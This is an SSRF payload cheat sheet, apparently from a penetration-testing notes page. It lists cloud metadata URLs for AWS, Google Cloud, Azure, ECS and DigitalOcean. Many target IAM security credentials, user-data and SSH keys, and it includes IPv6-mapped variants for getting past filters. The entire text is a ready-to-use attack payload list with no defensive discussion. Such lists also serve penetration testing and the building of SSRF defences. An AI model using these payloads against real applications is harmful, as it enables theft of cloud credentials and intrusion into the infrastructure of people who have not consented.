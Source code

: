 ## 2-SSRF URL for Cloud Instances

```jsx
AWS
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
```

```jsx
Google Cloud
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

```jsx
Azure:
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

```jsx
IPv6 Tests:
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
```

```jsx
ECS Task:
http://169.254.170.2/v2/credentials/
```

```jsx
Digital Ocean:
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

